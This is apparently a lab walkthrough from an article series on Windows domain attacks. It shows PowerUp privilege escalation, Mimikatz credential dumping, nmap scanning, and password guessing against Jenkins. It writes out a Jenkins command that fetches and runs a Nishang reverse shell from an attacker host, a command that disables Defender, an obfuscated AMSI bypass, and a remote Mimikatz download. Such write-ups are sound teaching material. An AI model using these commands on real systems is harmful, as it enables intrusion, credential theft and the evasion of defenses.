Introduction
In this article, we will demonstrate how to escalate privileges to Administrator on a local machine using the PowerUp tool, which automates the discovery of privilege escalation vectors. We will then explain why local privilege escalation matters, and proceed to move laterally from machine to machine within the domain until we get closer to the Domain Controller.
Note: I covered many privilege escalation methods on Windows in previous articles. This article will be split into multiple parts.
Walkthrough
Prerequisites
We begin this article after having already loaded our scripts into memory to bypass Windows Defender and AMSI. These bypass techniques were explained in the first article of this series.

Step 1: Enumerate Privilege Escalation Vectors with PowerUp
Run the following command to have PowerUp enumerate all possible privilege escalation paths on the current system:
Invoke-AllChecks
This command produces a large amount of output, but the fields we care about are Service Name and CanRestart. In our case, two vulnerable services were identified:
- AbyssWebServer
- gupdate
There is an important detail here: if we look at the CanRestart field for the gupdate service, its value is False, which means we cannot exploit it because we are unable to restart the service.
However, for the AbyssWebServer service, the CanRestart field has a value of True, meaning we can exploit it.

Step 2: Exploit the Vulnerable Service
We use the Invoke-ServiceAbuse command, specifying the vulnerable service name and the username we want to elevate to Administrator. In this case, our current user is student407:
Invoke-ServiceAbuse -Name "AbyssWebServer" -UserName "dcorp\student407"
Our privileges have now been elevated to Administrator on the local machine. All we need to do is log off and log back on for the changes to take effect.


Step 3: Understanding Why Privilege Escalation Matters
Why do we need to be Administrator? Because we want to run Mimikatz -- a tool that extracts passwords stored in memory. Mimikatz requires Administrator privileges to function, as it needs to access the LSASS process.

Step 4: Run Mimikatz to Extract Credentials
Now we open PowerShell as Administrator and load Mimikatz. We then execute the following command to extract all credentials stored in memory:
sekurlsa::logonpasswords
However, we notice that no interesting passwords were found -- only the password for the user we are currently logged in as. No credentials for high-value accounts (such as Domain Admins) appeared. We need to look elsewhere.

Step 5: Network Reconnaissance with Nmap
We perform a port scan against the machines on the network to discover other services and potential targets:
nmap -sV 172.16.3.0/24 -PS
We discover an IP address with several open ports. First, we check the HTTP port to see if there is a CMS running that might have a known vulnerability.

Step 6: Discover and Exploit Jenkins
We find that the machine is running Jenkins, a software automation and continuous integration platform. After researching Jenkins, we learn that if you have Project Manager permissions, you can execute commands on the server and obtain a reverse shell.
We notice several users on the system: Manager, jenkinsadmin, and builduser.
We attempt to log in with each user using their username as the password:
Manager/Manager-- login failedjenkinsadmin/jenkinsadmin-- login failedbuilduser/builduser-- login successful
Username: builduser
Password: builduser

Step 7: Obtain a Reverse Shell via Jenkins
After logging in, we select one of the existing projects (for example, project number 14). We navigate to the Configure option and scroll down to the bottom of the page, where there is a field that allows us to execute commands on the server.
We will use a PowerShell reverse shell script from the Nishang framework:
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
First, we start a Python HTTP server hosting the PowerShell reverse shell script so the target machine can download it.
Next, we set up a listener on our machine using PowerCat or NetCat to receive the incoming reverse shell connection.
Then we enter the following command in the Jenkins build command field:
powershell.exe iex (iwr http://172.16.100.7:9090/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.7 -Port 889
After saving and triggering a build on the project, we receive a reverse shell.

Step 8: Verify Our Privileges on the Compromised Machine
Now that we have a shell on the new machine, we check whether the user we are running as is a member of the local Administrators group. We confirm that we have Administrator privileges on this compromised machine.


Step 9: Deploy Mimikatz on the Compromised Machine
Before transferring Mimikatz, we need to disable Windows Defender on the compromised machine:
Set-MpPreference -DisableRealtimeMonitoring $true
Next, we bypass AMSI using an obfuscated PowerShell command:
(neW-oBJeCt iO.COMpRESsiOn.DeflAteSTrEAm([io.MemoryStREAM][coNveRT]::FrOmBAsE64StRINg( 'pZJRT9swEMff/SlOVqQmIqsyOjZENQnKpAkJWEUZe4jy4CaX1ZoTW7YzGqZ9dy5uBoWHvZAH53y+/8/3tx39kO3sED7DKWesc7L9CaveeWzmL2bTm671ssHpRevRarNC+1uW6OaMmW6tZAmlEs7BjvaHMaAv/6LURWO09TH/hbZFNTvkSRHWRpXzwtMPt0RtgeBLb+Er+qXV5VlVWXQuHrObK111ClPS2KExQyXXosFk/rbdLrWoLuXaCtvHI7p9C3attYI7aX0nFNnwWPp/FpQZPaXwfUxV9yv5QKY62Xqo1TXej5oUdOd3aWVq9U1V48LQ2F/GTxkj2Lvb3iBE4dgZi/a80JXmIV2cnOxb5KLhcADcyWmlFE9YNPa0L3h1A/vcFPhZ42RgrErRhmDR1TXaAWYIk7En0KtziJ7854MzKjlKIdt+yChhsS4iQ4il8OVm6GbRe8yLAuJsuzge6o4+DWOWhTHExyE+n5GM7u49qSb5/1/s9EpYtxGKmpsE0fD4J+fa9PFuZwKm8Nzox2TCJG7jHf8AgiRhjw==' ) , [SySteM.io.comPREssioN.CoMPReSSIONMOde]::DEcompreSS)| % { neW-oBJeCt io.sTreAMreaDER( $_ ,[TexT.eNcoDInG]::asCii)}).readtOeNd() |iEX
Now we load Mimikatz into memory on the compromised machine by downloading it from our HTTP server:
iex (iwr http://172.16.100.7:9090/Invoke-Mimikatz.ps1 -UseBasicParsing)
Note: The Mimikatz file transferred to the compromised machine is in .ps1 (PowerShell script) format, whereas the one used at the beginning of this article was in .exe format. Both versions are available on GitHub.

Step 10: Extract Credentials from the Compromised Machine
Finally, we execute Mimikatz to check whether there are any valuable credentials stored in memory on this machine:
Invoke-Mimikatz
Unfortunately, we did not find any passwords for a user that would help us advance further in the attack.
In the next article, we will continue with the same scenario and explore how to progress the attack until we reach the Domain Controller.
